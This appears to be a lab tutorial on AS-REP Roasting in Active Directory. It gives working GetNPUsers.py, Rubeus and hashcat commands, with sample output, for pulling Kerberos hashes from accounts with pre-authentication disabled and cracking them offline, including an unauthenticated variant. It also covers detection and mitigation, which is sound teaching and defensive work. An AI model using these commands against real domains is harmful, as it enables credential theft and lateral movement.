

## What Is AS-REP Roasting?

AS-REP Roasting exploits a configuration weakness in Active Directory: accounts where Kerberos pre-authentication has been disabled. Normally, a client must prove it knows the account's password before the KDC (Key Distribution Center — the domain controller component that issues Kerberos tickets) will hand out a TGT ([Ticket Granting Ticket](/docs/kerberos/tickets/) — the initial credential a domain user receives after logging in, used to request service tickets without re-entering a password). That proof takes the form of a timestamp encrypted with the account's key. When pre-auth is disabled, the KDC skips that check entirely and hands anyone who asks a chunk of ciphertext encrypted with the account's password-derived key. You capture that blob and crack it offline — no lockout risk, no sustained network noise, and depending on the account, no credentials needed at all.

---

## How Does AS-REP Roasting Work?

Kerberos pre-authentication is a security check added specifically to prevent offline password attacks. When the `DONT_REQUIRE_PREAUTH` flag is set on an account (`UF_DONT_REQUIRE_PREAUTH` — the Windows userAccountControl bit that disables the pre-auth timestamp check, stored as the `0x400000` bit in `userAccountControl`), the KDC skips timestamp validation entirely. It responds to any AS-REQ (Authentication Service Request) for that account with a full AS-REP (Authentication Service Response) — including an `EncryptedPart` (the `enc-part` field in the Kerberos spec — the portion of the AS-REP that the KDC encrypts using the target user's secret key, containing session keys and ticket details) sealed with the account's NTLM-derived key.

An attacker sends an AS-REQ for a vulnerable account, captures the AS-REP's `EncryptedPart`, and cracks it offline to recover the plaintext password. Hashcat mode `18200` handles the `$krb5asrep$` format.



---

## What Does AS-REP Roasting Require?

- Network access to a domain controller on port 88
- At minimum, a list of usernames to try — or the ability to enumerate accounts (LDAP null sessions, SMB enumeration, OSINT — Open Source Intelligence: usernames found in public sources like LinkedIn, email addresses, or breached credential databases)
- No domain credentials required if you already know a username with pre-auth disabled

In the [lab](/docs/kerberos/lab-setup/), `nopreauth` has `DONT_REQUIRE_PREAUTH` set by `setup-lab.sh`.

---

## Enumerating AS-REP Roastable Accounts

Before extracting hashes, find which accounts are vulnerable. If you have domain credentials, this step uses authenticated LDAP to query all accounts with the `DONT_REQUIRE_PREAUTH` bit set. If you don't have credentials yet, skip ahead to the unauthenticated variant in [Operational Notes](#operational-notes).


  
`GetNPUsers.py` with the `-request` flag queries LDAP for all accounts with `DONT_REQUIRE_PREAUTH` set and immediately requests their AS-REP hashes in one pass. The `\` at the end of each line is bash's line continuation character — it tells bash the command continues on the next line, letting you break a long command across multiple lines for readability. The entire block runs as one command.

```bash
GetNPUsers.py \
  radiant.local/jdoe:'Password123!' \
  -request \
  -format hashcat \
  -outputfile asrep-hashes.txt \
  -dc-ip 192.168.56.10
```

The flags:
- `radiant.local/jdoe:'Password123!'` — the `domain/username:password` positional argument for authentication. Any valid domain account works. Without credentials, the tool falls back to null session enumeration, which most modern domains block.
- `-request` — automatically requests the AS-REP for every vulnerable account found, rather than just listing them
- `-format hashcat` — output in `$krb5asrep$` format ready for hashcat. Alternative is `-format john` for John the Ripper.
- `-outputfile asrep-hashes.txt` — save hashes to file. Without this, they print to stdout only.
- `-dc-ip 192.168.56.10` — the domain controller IP. Required when DNS isn't configured to resolve `radiant.local`.

```
Impacket v0.12.0 - Copyright Fortra, LLC

Name        MemberOf  PasswordLastSet             LastLogon  UAC
----------  --------  --------------------------  ---------  --------
nopreauth             2026-03-12 09:00:00.000000  Never      0x410200  (userAccountControl flags — includes DONT_REQUIRE_PREAUTH)

$krb5asrep$23$nopreauth@RADIANT.LOCAL:a3f2b1c4...
```

The `23` in `$krb5asrep$23$` is the encryption type — `23` is `RC4-HMAC`. If the domain enforces AES, you will see `17` (AES128) or `18` (AES256) instead. AES hashes are significantly harder to crack — see [Operational Notes](#operational-notes) for the practical speed difference.

To enumerate without requesting hashes (list only):

```bash
GetNPUsers.py \
  radiant.local/jdoe:'Password123!' \
  -no-pass \
  -dc-ip 192.168.56.10
```

`-no-pass` suppresses the interactive password prompt — credentials are already embedded in the `radiant.local/jdoe:'Password123!'` positional argument, so no prompt is needed.
  
  
**Rubeus** `asreproast` queries for vulnerable accounts and requests their AS-REP hashes in one pass. The backtick `` ` `` at the end of each line is PowerShell's line continuation character — the same concept as bash's `\`, letting you split a long command across multiple lines:

```powershell
.\Rubeus.exe asreproast `
  /format:hashcat `
  /outfile:C:\Temp\asrep-hashes.txt `
  /nowrap
```

The flags:
- `/format:hashcat` — output in `$krb5asrep$` format. Alternative: `/format:john`
- `/outfile` — save to file instead of only printing to console
- `/nowrap` — print each hash on a single line. Without this, long hashes wrap across multiple lines and break hashcat's parser.

``` {linenos=table}
[*] Action: AS-REP Roasting

[*] Target Domain          : radiant.local
[*] Searching path 'LDAP://dc01.radiant.local/DC=radiant,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
 (LDAP filter: find user accounts where the DONT_REQUIRE_PREAUTH bit (4194304) is set in userAccountControl)

[*] SamAccountName         : nopreauth
[*] DistinguishedName      : CN=nopreauth,CN=Users,DC=radiant,DC=local
[*] Using domain controller: dc01.radiant.local (192.168.56.10)
[*] Building AS-REQ (w/o preauth) for: 'radiant.local\nopreauth'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$23$nopreauth@RADIANT.LOCAL:a3f2b1c4...
```

To target a specific user by name:

```powershell
.\Rubeus.exe asreproast /user:nopreauth /format:hashcat /nowrap
```

To request AES256 hashes instead of RC4 (for environments where RC4 is disabled):

```powershell
.\Rubeus.exe asreproast /enctype:aes256 /format:hashcat /nowrap
```

Note: requesting AES256 doesn't mean the domain uses AES256 for this account — it means you're asking for an AES256-encrypted response. The KDC must support it and the account must have AES keys enrolled. AES keys are generated automatically when an account's password is changed on Windows Server 2008+ domains — if the password hasn't been changed since AES support was enabled, the account may only have RC4 keys. If AES keys aren't available, the KDC falls back to RC4.
  


---

## Cracking the Hash

Transfer `asrep-hashes.txt` to your cracking machine. Hashcat mode `18200` handles AS-REP hashes.

```bash
hashcat -m 18200 asrep-hashes.txt /usr/share/wordlists/rockyou.txt
```

```
hashcat (v6.2.6) starting...

$krb5asrep$23$nopreauth@RADIANT.LOCAL:a3f2b1c4...:Roast123!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

For AES256 hashes (`$krb5asrep$18$`), the mode is still `18200` — hashcat detects the encryption type from the hash prefix and handles it automatically. AES hashes just take considerably longer (see [Operational Notes](#operational-notes)).

With rules for better coverage against passwords that vary by case, appended digits, or character substitutions:

```bash
hashcat -m 18200 asrep-hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
```

- `-r /usr/share/hashcat/rules/best64.rule` — apply a rule file that mutates each wordlist entry (adds numbers, swaps case, appends symbols, etc.). `best64.rule` ships with hashcat at that path on Kali and most Linux distributions — it contains 64 high-yield rules that catch the most common password patterns without dramatically increasing runtime.

Once cracked, use the recovered password as a normal domain credential — request a TGT with `getTGT.py` or Rubeus, then lateral move or escalate depending on the account's privileges.

---

## Operational Notes

**Unauthenticated variant.** If you have no domain credentials at all but know a username with pre-auth disabled, `GetNPUsers.py` can still request the AS-REP without authenticating:

```bash
GetNPUsers.py radiant.local/ -user nopreauth -no-pass -dc-ip 192.168.56.10
```

This sends a raw AS-REQ with no PA-DATA (pre-authentication data — the encrypted timestamp a client normally sends to prove it knows the account's password) for the specified user. Useful for initial foothold enumeration before you have any credentials. If you have a username list from OSINT, you can iterate through it and collect hashes for any account that happens to have pre-auth disabled.

**Clock skew.** Kerberos enforces a 5-minute maximum clock difference between the attacking machine and the DC. If your clock is off, AS-REQ fails with `KRB_AP_ERR_SKEW`. Sync before running:

```bash
sudo ntpdate 192.168.56.10
```

**RC4 vs AES crack time in context of AS-REP.** On a consumer GPU:
- RC4 (`$krb5asrep$23$`) — hundreds of millions of guesses per second. Short or common passwords crack in seconds to minutes.
- AES128 (`$krb5asrep$17$`) — tens of thousands of guesses per second. Orders of magnitude slower than RC4.
- AES256 (`$krb5asrep$18$`) — similar to AES128, but slower still.

If a domain enforces AES-only Kerberos or the account has AES keys enrolled, the KDC returns an AES-encrypted AS-REP. Strong passwords on pre-auth-disabled accounts combined with AES encryption make cracking practically infeasible — which is why mitigating the `DONT_REQUIRE_PREAUTH` attribute entirely is far better than relying on encryption type as a control.

---

## How Do You Detect and Defend Against AS-REP Roasting?

### What Logs Does AS-REP Roasting Generate?

- **Event ID 4768** (AS-REQ / AS-REP exchange) at the DC — every AS-REP Roasting attempt generates a 4768. The event records the requesting account's name and the source IP. For the unauthenticated variant, the `PreAuthType` field in the event is `0` (meaning no pre-authentication data was sent) — a valid detection signal distinct from normal 4768 events, where `PreAuthType` is `2` (encrypted timestamp).
- **Event ID 4624** — logon events if the cracked credential is subsequently used to authenticate. A successful logon from an account that has `DONT_REQUIRE_PREAUTH` set, especially from an unfamiliar source, is worth investigating.

### What Logs Does AS-REP Roasting Not Generate?

- **The offline cracking step** — the hash is cracked entirely on the attacker's machine. No network traffic, no domain events. Once the AS-REP is captured, all cracking activity is invisible to the domain.
- **A single unauthenticated AS-REQ** — there is no separate event type for "AS-REQ without PA-DATA." A single 4768 for a pre-auth-disabled account looks identical to a normal Kerberos authentication for that account. Volume and the source IP are what reveal the sweep.

### How Do You Mitigate AS-REP Roasting?

- **Disable `DONT_REQUIRE_PREAUTH` everywhere.** This attribute should never be enabled in production — it exists for legacy compatibility with very old Kerberos implementations that didn't support pre-auth. Audit with PowerShell (requires RSAT — Remote Server Administration Tools, a set of management utilities for administering Windows Servers and AD from a workstation):
  ```powershell
  Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
  ```
  Any account in this list is AS-REP Roastable. Fix:
  ```powershell
  Set-ADUser nopreauth -DoesNotRequirePreAuth $False
  ```

- **Strong passwords on every user account.** AS-REP Roasting is only dangerous if the cracked password is weak. Enforcing long, complex passwords means even a captured hash is useless. For accounts that genuinely can't enable pre-auth (legacy software requirement), treat them like service accounts: 25+ random characters, rotated regularly, monitored for use.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has a built-in detection for AS-REP Roasting. It detects AS-REQ without PA-DATA and correlates against accounts known to have pre-auth enabled, flagging requests for accounts that should require it. Also tracks unauthenticated requests across source IPs.
- **Microsoft Sentinel / Splunk** — write a rule on Event ID 4768 where `PreAuthType = 0`. Any 4768 with `PreAuthType = 0` is either an account with pre-auth disabled being legitimately used, or an AS-REP Roasting attempt — either way, it warrants review. A tighter rule: Event ID 4768 with `PreAuthType = 0` for an account that does not appear in a known-exempt list.
- **CrowdStrike / [EDR](/docs/redteam/defender-bypass/)** — behavioral detection on `Rubeus.exe asreproast` and `GetNPUsers.py` command signatures. Catching tool execution before the AS-REP is captured is the most reliable control point.
- **Purple team tip** — run `GetNPUsers.py` in your own environment with event logging enabled. Verify your SIEM fires on Event ID 4768 with `PreAuthType = 0`. Check that the alert correctly attributes the source IP. If nothing fires, your detection is blind to this attack.

## References

### Original Research
- Will Schroeder (harmj0y) — "Roasting AS-REPs" (2017)

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python network protocol library and scripts
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit
- [Hashcat](https://github.com/hashcat/hashcat) — GPU-accelerated password cracker

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [RFC 6113 — A Generalized Framework for Kerberos Pre-Authentication (FAST)](https://www.rfc-editor.org/rfc/rfc6113)
